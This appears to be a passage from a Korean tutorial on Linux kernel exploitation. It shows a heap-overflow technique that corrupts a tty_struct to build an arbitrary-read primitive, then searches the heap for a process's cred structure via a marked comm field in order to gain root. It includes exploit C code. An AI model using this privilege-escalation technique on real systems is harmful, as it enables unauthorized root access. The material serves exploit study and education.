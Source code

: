 커널 힙의 크기는 그다지 크지 않기 때문에 힙을 전체 탐색해 `cred` 구조체를 찾고, 그 필드들을 0으로 덮어써 root 권한을 얻는 방법을 생각해볼 수 있다. 이때 프로세스의 `cred` 구조체는 `task_struct`의 멤버로 들어가 있으므로 `task_struct`의 구조를 다시 살펴보면

```c
enum {
	TASK_COMM_LEN = 16,
};

struct task_struct {
    ...
	const struct cred __rcu		*ptracer_cred;
	const struct cred __rcu		*real_cred;
	const struct cred __rcu		*cred;

#ifdef CONFIG_KEYS
	struct key			*cached_requested_key;
#endif
	/*
	 * executable name, excluding path.
	 *
	 * - normally initialized setup_new_exec()
	 * - access it with [gs]et_task_comm()
	 * - lock it with task_lock()
	 */
	char				comm[TASK_COMM_LEN];
    ...
}
```

`comm` 필드에 주목해볼 수 있다. 이 필드에는 실행 파일의 이름이 16바이트 들어가며, `prctl()`로 변경이 가능하다. 따라서 저 필드에 특정 문자열을 저장해둔 뒤 힙을 탐색하며 미리 저장한 문자열을 찾으면 된다.

AAR을 할 때 위에서처럼 모든 spray 한 객체에 대해 `ioctl()`을 수행하면 시간이 매우 오래 걸리므로 heap overflow로 인해 영향을 받는 객체의 file descriptor를 찾아야 한다. 이때 원래 `/dev/ptmx`에 대한 `ioctl()`은 -1을 반환한다는 것을 고려하면 (원래 구현되지 않은 동작이므로) 다음과 같이 구현이 가능하다.

```c
unsigned int aar(unsigned long addr) {
    // ioctl의 두 번째 인자가 rcx, 세 번째 인자가 rdx로 이동
    unsigned int val;
    static int spray_fd = -1;

    if (spray_fd == -1) {
        unsigned long *p = (unsigned long*)&buf;
        p[12] = mov_eax_byref_rdx_ret;
        *(unsigned long*)&buf[0x418] = g_buf;

        write(fd, buf, 0x420);

        for (int i = 0; i < 100; i++) {
            val = ioctl(spray[i], 0xdeadbeef, addr);
            if (val != -1) {
                printf("affected tty_struct at %d\n", i);
                spray_fd = spray[i];
                return val;
            }
        }
    }

    val = ioctl(spray_fd, 0xdeadbeef, addr);
    return val;
}
```


[^1]: SLUB Allocator에 대한 내용은 추후 깊게 다뤄볼 예정이다. 여기서는 우선 같은 bin에 속한 청크일지라도 크기가 다를 수 있는 유저영역과 달리 `bin`과 비슷한 `kmalloc-N`에서는 같은 크기의 청크들이 들어있다는 것만 알면 된다. (예를 들어 `kmalloc-1024`에는 항상 크기가 1024인 청크들만 존재한다.)
[^2]: 구조체에서 0x18 오프셋에 있는 값(위에서 말한 커널 영역의 어딘가)들은 번갈아가면서 나온다. 예를 들어 `g_buf+0x418`에 `0x1111`이 적혀있다면 그 다음 구조체인 `g_buf+0x818`에서는 `0x2222`, 그 다음 구조체인 `g_buf+0x400*3+0x18`에는 다시 `0x1111`이 적혀 있는 식이다. 이들이 모두 커널 영역의 주소라는 사실을 쉽게 알 수 있다. 여기서는 짝수 번째에 나오는 값을 사용해 offset을 계산했다.